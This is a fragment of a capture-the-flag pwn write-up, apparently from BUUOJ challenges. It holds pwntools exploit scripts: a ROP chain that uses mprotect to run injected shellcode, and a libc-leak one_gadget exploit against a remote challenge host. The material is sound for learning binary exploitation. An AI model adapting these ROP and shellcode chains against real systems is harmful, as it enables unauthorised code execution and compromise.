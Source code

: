 ```python
main_addr  = e.symbols['main']

# # orw
# payload =  'a' * 0x2D + p32(open_addr) + p32(pop_2_ret) + p32(flag_addr) + p32(0)
# payload += p32(read_addr) + p32(pop_3_ret) + p32(3) + p32(bss_addr) + p32(64)
# payload += p32(write_addr) + 'dead' + p32(1) + p32(bss_addr) + p32(64)
# io.sendline(payload)
# io.interactive()

# # mprotect
shellcode = asm(shellcraft.sh())
payload = 'a' * 0x2D + p32(mprotect_addr) + p32(pop_3_ret) + p32(bss_addr) + p32(mpr_len) + p32(mpr_prot)
payload += p32(read_addr) + p32(pop_3_ret) + p32(0) + p32(bss_addr) + p32(len(shellcode))
payload += p32(bss_addr)
io.sendline(payload)
io.sendline(shellcode)
io.interactive()
```

## 0x0e [BJDCTF 2nd]one_gadget
### ans one_gadget
输出printf的地址  
确定libc基址  
计算one_gadget地址（一共四个，总有能成功的）

### exp
```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"
# io = process('./bjd_one_gadget')
io = remote('node3.buuoj.cn','29412')

io.recvuntil("here is the gift for u:")
printf_addr = int(io.recvline(),16)
success("printf_addr   " + hex(printf_addr))

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("libc-2.29-64.so")
libc_base = printf_addr - libc.sym["printf"]

# one_gadget = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget = [0xe237f,0xe2383,0xe2386, 0x106ef8]
one_gadget_addr = libc_base + one_gadget[3]

io.recvuntil("Give me your one gadget:")
io.sendline(str(one_gadget_addr))

io.interactive()
```
